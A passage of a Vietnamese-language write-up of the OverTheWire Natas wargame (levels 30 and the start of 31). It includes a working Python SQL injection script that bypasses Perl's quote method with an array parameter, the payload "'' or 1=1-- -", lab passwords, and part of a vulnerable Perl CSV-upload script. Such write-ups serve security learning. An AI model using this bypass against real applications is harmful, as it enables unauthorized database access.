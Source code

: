 Đây chắc chắn là phải thực hiện tấn công SQLi, vậy nên ta cần bypass được phương thức `quote`. Ta biết rằng phương thức `quote` được sử dụng để bảo vệ truy vấn SQL tránh bị tấn công SQLi bằng cách đặt dấu ngoặc đơn hoặc dấu ngoặc kép xung quanh các giá trị được truyền vào truy vấn. Tuy nhiên, nếu các giá trị được truyền vào truy vấn không được xử lý đúng cách, vẫn có thể gây ra lỗ hổng bảo mật.

Sau quá trình tìm kiếm thì ta có thể bypass được cơ chế này bằng cách truyền vào là một mảng, thay vì là một chuỗi đơn như bình thường.
Payload cụ thể sẽ như sau 
```
import requests

url = "http://natas30.natas.labs.overthewire.org/index.pl"

s = requests.Session()
s.auth = ('natas30', 'Gz4at8CdOYQkkJ8fJamc11Jg5hOnXM9X')

args = { "username": "natas31", "password": ["'' or 1=1-- -",2] }
r = s.post(url,  data=args)
print (r.text)
```
Vì phương thức `quote` của Perl chỉ bảo vệ giá trị đầu tiên của mảng được truyền vào, và bỏ qua các giá trị còn lại. Hoặc khi sử dụng quote dưới dạng list cùng với `SQL_INTEGER` là tham số thứ 2 như payload ở trên thì sẽ trả về giá trị unquote. Vì vậy ở đây câu lệnh query sẽ là 

`Select * FROM users where username ='natas31' and password ='' OR 1=1-- -`

Vậy nên ta có thể khai thác được lỗ hỏng SQLi và truy cập vào lấy được password cho level tiếp theo.

![](https://i.imgur.com/Xw6z4Mu.png)


---
### 31. Lv30 -> Lv31

>username/password : **natas31/AMZF14yknOn9Uc57uKB02jnYuhplYka3** 

Ở level này sẽ cho phép chúng ta tải tệp `.csv` lên và thay đổi nó thành một bảng đẹp mắt hơn. Ví dụ ở đây ta có một file address.cvs như sau 

![](https://i.imgur.com/4uzBP6k.png)

Sau khi upload lên trang web thì kết quả sẽ như thế này 

![](https://i.imgur.com/HsF8G7h.png)

Nhấn vào xem source code để hiểu cách hoạt động của nó.
```
my $cgi = CGI->new;
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    print '<table class="sortable table table-hover table-striped">';
    $i=0;
    while (<$file>) {
        my @elements=split /,/, $_;

        if($i==0){ # header
            print "<tr>";
            foreach(@elements){
                print "<th>".$cgi->escapeHTML($_)."</th>";   
            }
            print "</tr>";
        }
        else{ # table content
            print "<tr>";
            foreach(@elements){
                print "<td>".$cgi->escapeHTML($_)."</td>";   
```